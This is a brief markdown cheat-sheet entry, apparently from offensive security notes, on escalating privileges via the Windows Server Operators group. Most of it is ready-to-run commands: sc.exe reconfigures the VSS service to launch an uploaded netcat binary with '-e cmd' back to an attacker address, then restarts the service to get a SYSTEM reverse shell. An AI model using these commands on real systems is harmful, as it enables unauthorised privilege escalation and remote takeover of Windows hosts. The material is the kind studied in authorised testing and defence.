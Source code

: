 # Server Operators Group
-------

https://cube0x0.github.io/Pocing-Beyond-DA/

Get a list of services that the account can modify:
```
sc.exe query
```

If the user does not have access to the Service Control Manager proceed to this blindly may be it will work

- Upload a nc binary, change the executable path of the service to the location of the nc binary.

```
sc.exe config VSS binpath="C:\Windows\Tasks\nc64.exe -e cmd 10.10.10.10 9001"
```

```
sc.exe config VSS binpath="C:\Windows\System32\cmd.exe /c C:\Windows\Tasks\nc.exe 10.10.10.10 9001 -e cmd.exe"
```

```
sc.exe stop VSS

sc.exe start VSS
```